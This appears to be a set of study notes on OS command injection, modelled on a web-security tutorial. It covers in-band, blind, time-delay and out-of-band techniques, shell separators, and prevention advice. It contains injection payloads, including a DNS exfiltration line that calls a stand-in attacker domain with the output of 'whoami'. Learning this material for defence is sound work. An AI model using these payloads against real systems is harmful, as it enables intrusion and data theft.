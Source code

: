 ![](os-command-injection.svg)

## Executing arbitrary commands
* Consider a shopping application that lets the user view whether an item is in stock in a particular store
* `https://insecure-website.com/stockStatus?productID=381&storeID=29`
* To provide the stock information, the application must query various legacy systems
* For historical reasons, the functionality is implemented by calling out to a shell command with the product and store IDs as arguments
* `stockreport.pl 381 29`
* An attacker can submit the following input to execute an arbitrary command

```python
& echo aiwefwlguh &
```

* If this input is submitted in the `productID` parameter, then the command executed by the application is

```python
stockreport.pl & echo aiwefwlguh & 29
```

## Useful commands

![](Pasted%20image%2020230411163309.png)

## Blind OS command injection vulnerabilities
* Consider a web site that lets users submit feedback about the site
* The user enters their email address and feedback message
* The server-side application then generates an email to a site administrator containing the feedback

```python
mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com
```

* The output from the `mail` command (if any) is not returned in the application's responses, and so using the `echo` payload would not be effective

### Detecting blind OS command injection using time delays
* You can use an injected command that will trigger a time delay, allowing you to confirm that the command was executed based on the time that the application takes to respond
* The `ping` command is an effective way to do this, as it lets you specify the number of ICMP packets to send, and therefore the time taken for the command to run

```python
& ping -c 10 127.0.0.1 &
```

* This command will cause the application to ping its loopback network adapter for 10 seconds

### Exploiting blind OS command injection by redirecting output
* You can redirect the output from the injected command into a file within the web root that you can then retrieve using the browser
* For example, if the application serves static resources from the filesystem location `/var/www/static`, then you can submit the following input

```python
& whoami > /var/www/static/whoami.txt &
```

### Exploiting blind OS command injection using out-of-band ([OAST](https://portswigger.net/burp/application-security-testing/oast)) techniques
* You can use an injected command that will trigger an out-of-band network interaction with a system that you control, using OAST techniques

```python
& nslookup kgji2ohoyw.web-attacker.com &
```

* The out-of-band channel also provides an easy way to exfiltrate the output from injected commands

```python
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

* This will cause a DNS lookup to the attacker's domain containing the result of the `whoami` command

```python
wwwuser.kgji2ohoyw.web-attacker.com
```

## Ways of injecting OS commands
A variety of shell metacharacters can be used to perform OS command injection attacks.

A number of characters function as command separators, allowing commands to be chained together. The following command separators work on both Windows and Unix-based systems:
-   `&`
-   `&&`
-   `|`
-   `||`

The following command separators work only on Unix-based systems:
-   `;`
-   Newline (`0x0a` or `\n`)

On Unix-based systems, you can also use backticks or the dollar character to perform inline execution of an injected command within the original command:
-   `` ` ``injected command `` ` ``
-   `$(`injected command `)`

Note that the different shell metacharacters have subtly different behaviors that might affect whether they work in certain situations, and whether they allow in-band retrieval of command output or are useful only for blind exploitation.

Sometimes, the input that you control appears within quotation marks in the original command. In this situation, you need to terminate the quoted context (using `"` or `'`) before using suitable shell metacharacters to inject a new command.

## How to prevent OS command injection attacks
By far the most effective way to prevent OS command injection vulnerabilities is to never call out to OS commands from application-layer code. In virtually every case, there are alternate ways of implementing the required functionality using safer platform APIs.

If it is considered unavoidable to call out to OS commands with user-supplied input, then strong input validation must be performed. Some examples of effective validation include:

-   Validating against a whitelist of permitted values.
-   Validating that the input is a number.
-   Validating that the input contains only alphanumeric characters, no other syntax or whitespace.

Never attempt to sanitize input by escaping shell metacharacters. In practice, this is just too error-prone and vulnerable to being bypassed by a skilled attacker.